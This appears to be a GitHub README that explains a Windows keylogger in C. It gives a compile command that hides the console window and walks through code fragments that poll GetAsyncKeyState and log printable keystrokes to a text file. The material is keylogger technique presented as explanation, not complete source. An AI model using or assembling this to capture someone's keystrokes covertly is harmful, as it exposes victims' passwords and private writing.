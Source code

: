 # Keylogger Compilation & Explanation

## Compilation
To compile the program without opening a console window, use the following command:

```bash
gcc keylogger.c -o keylogger -mwindows
```

> [!NOTE]
> `fopen` may not create a keylogger.txt when there is none depedning on permissions

## Code Explanation

```c
#define WIN32_LEAN_AND_MEAN
```
The above define excludes APIs such as Cryptography, DDE, RPC, Shell, and Windows Sockets, resulting in faster compilation times and reduced binary size.

---

```c
short GetAsyncKeyState(int vKey);
```
This is a Windows API function that checks the state of a key as of calling and since last call.

---


```c
for (int i = 0; i < 256; i++)
    GetAsyncKeyState(i);
```
This loop ensures that all unwanted key presses are flushed, preventing any unintended logging.

---

```c
if (GetAsyncKeyState(i) & 0b1)
```
This condition checks every ASCII character to determine if it is currently pressed or was pressed since the last check. The bitwise operation `& 0b1` requires the last bit of the return of `GetAsyncKeyState` to be 1, which is the case when the key was specifficaly pressed (not held down).

---

```c
if (i >= 32 && i <= 126)
```
This condition restricts logging to printable ASCII characters.

